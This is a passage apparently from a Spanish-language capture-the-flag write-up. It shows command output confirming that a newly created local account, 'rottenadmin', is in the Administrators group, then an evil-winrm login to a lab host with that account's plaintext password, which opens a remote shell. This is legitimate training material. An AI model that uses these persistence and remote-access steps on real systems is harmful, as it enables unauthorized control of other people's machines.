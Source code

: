 ```
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Comprobamos si estamos en el `grupo Administrators`

```
C:\Users\Phoebe\Desktop>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
rottenadmin
The command completed successfully.
```

Nos `conectamos` usando `evil-winrm` con las credenciales del usuario que acabamos de crear

```
# evil-winrm -u 'rottenadmin' -p 'P@ssword123!' -i 10.129.48.103
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\rottenadmin\Documents> whoami
love\rottenadmin
```

